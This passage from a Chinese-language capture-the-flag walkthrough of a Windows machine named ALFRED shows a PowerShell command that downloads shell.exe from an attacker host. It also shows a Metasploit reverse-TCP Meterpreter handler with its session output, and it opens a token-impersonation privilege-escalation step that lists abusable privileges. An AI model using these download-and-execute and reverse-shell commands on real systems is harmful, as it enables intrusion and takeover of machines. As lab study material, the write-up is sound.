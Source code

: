 ```shell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.124.22:8081/shell.exe','shell.exe')"
```

msf中：

```shell
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.2.124.22
set LPORT 4443
run

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.2.124.22:4443
[*] Sending stage (176198 bytes) to 10.10.53.218
[*] Meterpreter session 1 opened (10.2.124.22:4443 -> 10.10.53.218:49236) at 2024-03-07 04:05:29 -0500

meterpreter > sysinfo
Computer        : ALFRED
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

## Privilege Escalation

拿到初始权限，下一步就是提权，这里希望我们使用假冒token来实现提权。关于token，看这https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens

记住两种主要的token就行，这里使用的是第二种。

- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

以下是几种经常被冒用的令牌：

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

在反弹shell里，使用`whoami /priv`可以看到当前的令牌权限：
